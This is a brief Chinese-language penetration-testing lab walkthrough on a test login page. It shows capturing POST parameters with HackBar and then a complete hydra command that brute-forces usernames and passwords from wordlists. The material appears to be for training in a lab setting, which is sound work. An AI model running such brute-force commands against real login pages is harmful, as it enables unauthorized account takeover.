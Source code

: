 用 hackbar 尝试获取 Post data 值

```
  http://169.254.91.186/pentest/test/b2e16da5985ee1be/login.php
```

![hackbar](/images/4_1.png)

准备存放常见用户名的文本user.txt和存放常见密码的文本passwd.txt

使用user.txt用户名文本和passwd.txt文本文本对无验证码且弱口令的登陆页面进行暴力破解

```
  hydra -L user.txt -P passwd.txt -o output.log -vV -t 10  -f 169.254.91.186 http-post-form "/pentest/test/b2e16da5985ee1be/login.php:username=^USER^&pwd=^PASS^:login failure"
```

![结果](/images/4_2.png)
